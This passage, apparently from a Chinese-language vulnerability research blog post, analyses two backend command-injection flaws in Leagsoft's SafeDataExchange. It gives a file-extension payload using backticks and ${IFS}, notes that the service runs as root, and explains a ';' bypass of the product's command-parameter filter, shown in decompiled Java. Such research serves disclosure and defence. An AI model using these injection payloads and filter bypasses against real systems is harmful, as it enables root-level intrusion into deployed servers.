 此时局部变量的值：

![18](https://images.payloads.online/2024-07-29-6cdfbf06144d922718628f163f388c612fc310451acfd8da9b039989ec3b07fe.png)  


我发现文件名被带入了`/bin/sh -c` 意味着文件名也可以作为命令执行，由于前面有进行文件扩展名的获取解析，这个方法会取文件名的最后一个`.` 作为分割，把扩展名取得后拼接在最后面，最好的命令注入点是文件扩展名，最终我的payload如下：

```bash
file.`touch${IFS}222222`
```

![19](https://images.payloads.online/2024-07-29-0d3b7e5111031fac69abbe36548f69d4b03e41557e60107e919f41005f3966d5.png)  


利用````和`${IFS}`替代空格 在shell中的特点，可以达到任意命令执行的目的，我还发现它的java服务是以root用户启动的，意味着获取这个命令执行的权限就是最高权限。

![20](https://images.payloads.online/2024-07-29-5a44f4361c4d69a355c43805a908033c99d86f80539148f1fb3898d111b3deae.png)  


### 后台命令执行二

`com.leagsoft.uex.sysparam.controller.NoticeConfigController.class` 中的`testNoticeEmailAction`方法存在命令注入，在调用`JavaShellUtil.executeCommand`方法时，将用户输入带入了bash脚本后面，但`LeagUtil.filterCmdParams`对输入的值进行了过滤替换，不过因为参数没有放入单引号中，可以使用`;` 对前面的脚本进行闭合，从而绕过限制执行任意命令。

```java
public void testNoticeEmailAction(HttpServletRequest request, HttpServletResponse response) throws IOException {
        Map<String, String> emailMap = new HashMap();
        Map<String, String[]> map = request.getParameterMap();
        Set<Entry<String, String[]>> set = map.entrySet();
        Iterator it = set.iterator();

        while(it.hasNext()) {
            Entry<String, String[]> entry = (Entry)it.next();
            emailMap.put(entry.getKey(), ((String[])entry.getValue())[0]);
        }

        String random = (String)emailMap.get("random");
        String mailPwd = RC4.RC4DecodeForJS((String)emailMap.get("mailSendPwd"), random);
        emailMap.put("mailSendPwd", mailPwd);

        try {
            JavaShellUtil.executeCommand("/home/leagsoft/SafeDataExchange/Bin/dataex_iptables.sh " + LeagUtil.filterCmdParams((String)emailMap.get("mailServerAddr")) + " " + LeagUtil.filterCmdParams((String)emailMap.get("mailServerPort")), false);
            log.info("excute shell command : /home/leagsoft/SafeDataExchange/Bin/dataex_iptables.sh {} {}", emailMap.get("mailServerPort"), emailMap.get("mailServerPort"));
        } catch (IOException var13) {
            log.error("excute /home/leagsoft/SafeDataExchange/Bin/dataex_iptables.sh error", var13);
        }
.....
// LeagUtil.filterCmdParams

public static String filterCmdParams(String cmdParams) {
        if (StringUtils.isEmpty(cmdParams)) {
            return cmdParams;
        } else {
            String afterParams = cmdParams.replaceAll("`", "");
            if (!StringUtils.isEmpty(afterParams) && afterParams.contains("$(")) {
                afterParams = afterParams.replaceAll("\\$", "");
            }

            log.info("before cmdParams:{},after filter cmdParams:{}", cmdParams, afterParams);
            return afterParams;
```
